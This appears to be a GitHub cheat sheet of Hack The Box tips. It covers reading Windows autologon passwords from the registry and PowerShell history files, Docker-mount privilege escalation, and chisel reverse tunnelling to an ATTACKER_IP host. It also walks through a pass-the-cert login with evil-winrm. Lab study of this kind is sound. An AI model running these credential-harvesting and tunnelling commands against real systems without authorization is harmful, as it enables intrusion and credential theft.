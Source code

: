 # HTB-tips

## Windows Privilege Escalation - Registry Autologon
Sometimes windows stores credentials in plaintext (DefaultDomainName, DefaultUserName,DefaultPassword)

EXAMPLE USAGE:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


## Windows Privilege Escalation - Powershell history file
Windows stores the powershell history in a file in the psreadlinefolder.(just like linux stores it under the .bash_history).
```
more C:\users\adam\appdata\roaming\microsoft\windows\powershell\psreadline\*.txt
```

## Linux Privilege Escalation - Dcoker Container Mounted files
A docker conatiner is mounted to a home directory. The docker connects the containers file system to the hosts file system -- live. So any changes in the host file system also affects in the docker and vice versa.If the we get root on the docker conatiner(by default we are root inside the docker) this can result in easy priv esc by setting up the setuid to a any binary.

## Linux Privilege Escalation - Port Forwarding using Chisel
Attacker Machine
```bash
chisel server -p ATTACKER_PORT --reverse
```
Target Machine
```bash
chisel client ATTACKER_IP:ATTACKER_PORT R:LOCAL_PORT:127.0.0.1:PORT_RUNNING_ON_TARGET_MACHINE
```

## Windows Exploitation - Pass the Cert
If we get a .pfx file we can get the cert.pem and key.pem from the .pfx file and try to logging in the machine if winrm service is enabled using pass the cert attack.
Extracting the key and cert
```
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nokeys -out cert.pem
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nocerts -nodes -out key.pem
```
After getting the cert and the key we can log-in
```
evil-winrm -i IP -S -k key.pem -c cert.pem
```
